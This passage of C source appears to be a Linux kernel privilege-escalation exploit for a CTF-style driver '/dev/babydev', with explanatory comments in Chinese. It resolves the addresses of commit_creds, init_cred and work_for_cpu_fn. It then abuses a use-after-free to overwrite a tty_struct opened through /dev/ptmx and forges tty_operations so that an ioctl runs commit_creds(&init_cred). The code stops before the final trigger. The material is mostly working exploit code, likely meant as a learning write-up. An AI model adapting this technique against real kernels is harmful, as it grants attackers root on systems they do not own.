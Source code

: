 ```c
        }
        if(!strcmp(func, "commit_creds")){
            commit_creds = address;
        }
        if(!strcmp(func, "work_for_cpu_fn")){
            work_for_cpu_fn = address;
        }
        if(!strcmp(func, "init_cred")){
            init_cred = address;
        }
    }
    if(!commit_creds || !prepare_kernel_cred || !work_for_cpu_fn || !init_cred){
        error("Failed to get the function address.");
    }

    success("The address of prepare_kernel_cred is 0x%llx.", prepare_kernel_cred);
    success("The address of commit_creds is 0x%llx.", commit_creds);
    success("The address of work_for_cpu_fn is 0x%llx.", work_for_cpu_fn);
    success("The address of init_cred is 0x%llx.", init_cred);

    size_t buf[0x50];
    size_t fake_tty[0x50];
    size_t fake_ope[0x50];
    size_t origin_tty[0x2d0];

    // 打开题目文件两次
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 通过ioctl来改变babydev_struct的object大小
    ioctl(fd2, 0x10001, 0x2e0);

    // 释放fd1，而由于UAF，fd2仍然可以写其内容
    close(fd1);

    // 通过/dev/ptmx来打开tty_struct
    // 由于UAF，可以通过fd2来控制这个tty_struct
    info("opening tty_struct...");
    int fd3 = open("/dev/ptmx", 2);

    // 将原始的tty_struct内容读入origin_tty和fake_tty
    // 前者是我们希望在最后来恢复整个tty_struct
    // 后者是我们读入fake_tty，保证在修改tty_struct的时候不修改到其他变量
    read(fd2, origin_tty, 0x2d0);
    read(fd2, fake_tty, 0x40);
    
    // fake_tty的tty_operations指向我们写得fake_operations
    fake_tty[3] = fake_ope;

    // 将tty_operations的ioctl改为work_for_cpu_fn函数
    info("changing the tty_operations...");
    fake_ope[12] = (size_t)work_for_cpu_fn;

    // work_for_cpu_fn函数会执行(*(void*))tty_struct[4])(tty_struct[5])
    fake_tty[4] = (size_t)commit_creds;
    fake_tty[5] = (size_t)init_cred; // 因此这里是init_cred而不是prepare_kernel_cred哦
    
    // 将写好的fake_tty重新写入tty_struct
    info("writing changed tty_struct...");
    write(fd2, fake_tty, 0x40);

    // 通过fake_operations中的ioctl来触发commit_creds(&init_cred);
    // 需要注意的是ioctl在执行前还有一些操作，因此ioctl的参数写为两个233
```